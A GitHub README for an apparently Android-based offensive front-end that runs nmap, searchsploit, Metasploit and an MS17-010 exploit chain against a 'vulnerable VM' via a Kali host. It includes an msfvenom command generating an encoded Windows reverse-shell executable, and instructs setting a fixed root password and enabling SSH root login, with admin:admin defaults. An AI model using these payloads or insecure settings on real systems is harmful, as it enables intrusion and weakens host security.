 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

### Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.<br>
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.<br>
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.<br>
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.<br>

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```


### Linux Bash Module:<br>
Type the IP address of kali and type your bash command on it, than you can execute.<br>
If you know how to use the ssh, then you should be know how to use this modulel.<br>

Example Command:
```
ifconfig
```

### Nmap Module:<br>
Type the IP address of kali and target and setup the option then you can execute.<br>
Scan report will below the console.<br>


### Searchsploit Module:<br>
Type the vulnerabilities number or CMS/Service name and version.<br>
If the input CMS/Service is vulnerable, than it will show the exploit.<br>

### Metasploit Module:<br>
Type the RHost LHost to input box and select a exploit module, then you can exploit.<br>
For security reason, if metasploit successful remote code execution, the target will be shutdown in 3 second.<br>
**The Target is not 100% can be exploit**


My Email: aifred0729tw@gmail.com<br>
My Facebook: https://www.facebook.com/aifred0729TW/<br>

Try Harder!!

